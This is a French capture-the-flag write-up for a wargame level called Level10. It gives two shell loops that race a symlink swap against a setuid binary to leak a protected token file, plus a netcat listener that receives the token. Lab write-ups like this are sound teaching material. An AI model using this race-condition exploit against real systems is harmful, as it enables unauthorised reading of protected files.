


# Level10:

**Dans un premier temps, copier le code ci-dessous vers `/tmp/s1.sh` et executer le dans un premier terminal**

```bash 
#!/bin/sh
while [ 1 ]
do
    rm -f /tmp/tmp
    touch /tmp/tmp
    rm -f /tmp/tmp
    ln -s ~/token /tmp/tmp
done
```

`chmod +x /tmp/s1.sh ; /tmp/s1.sh`


**Ajouter en suite ce code dans `/tmp/s2.sh` puis l'executer dans un deuxieme terminal**
```bash
#!/bin/sh
while [ 1 ]
do
    ~/level10 /tmp/tmp 127.0.0.1
done
```

`chmod +x /tmp/s2.sh ; /tmp/s2.sh`

**Et enfin dans un troisieme terminal il faut ouvrir un serveur d'ecoute sur le port 6969**

`nc -lk 6969`

**On y voit alors le flag passer**


